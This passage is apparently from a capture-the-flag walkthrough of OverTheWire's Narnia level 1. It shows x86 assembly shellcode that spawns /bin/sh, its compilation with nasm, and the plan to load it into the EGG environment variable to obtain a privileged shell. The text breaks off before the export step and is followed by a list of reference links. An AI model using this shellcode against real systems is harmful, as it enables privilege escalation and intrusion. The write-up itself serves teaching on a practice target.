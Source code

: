 
The program searches for an environment variable **EGG** and then it exits if this variable doesn't exist. If it does, **EGG**'s value is passed as a function. Really secure.



### Step 1: Creating an Environment Variable with our Exploit

The most obvious option for an exploit is to spawn a privileged shell, so that we can read the next level's password.

Let's suppose we don't know that we need to write the exploit in memory language. We could try this:
```sh
narnia1@melinda:/narnia$ export EGG="/bin/ls"
narnia1@melinda:/narnia$ echo $EGG
/bin/ls
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault
```

Nope.

We actually need to create a hexadecimal command to export to **EGG**. We do this in Assembly and all the information we need is in the [Appendix A] from [Aleph One]'s paper. This allows us to write the following:

[Appendix A]: http://insecure.org/stf/smashStack.html



```sh
narnia1@melinda:/tmp$ vi shellspawn.asm
xor eax, eax        ; make eax equal to 0
push eax            ; pushes null
push 0x68732f2f     ; pushes /sh (//)
push 0x6e69622f     ; pushes /bin
mov ebx, esp        ; passes the first argument
push eax            ; empty third argument
mov edx, esp        ; passes the third argument
push eax            ; empty second argument
mov ecx, esp        ; passes the second argument
mov al, 11          ; execve system call #11
int 0x80            ; makes  an interrupt
```

Compiling:

```sh
narnia1@melinda:/tmp$ nasm shellspawn.asm
narnia1@melinda:/tmp$ ls
shellspawn  shellspawn.asm
narnia1@melinda:/tmp$ cat shellspawn
1�Ph//shh/bin��P��P���
```

Exporting it to *EGG*:


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP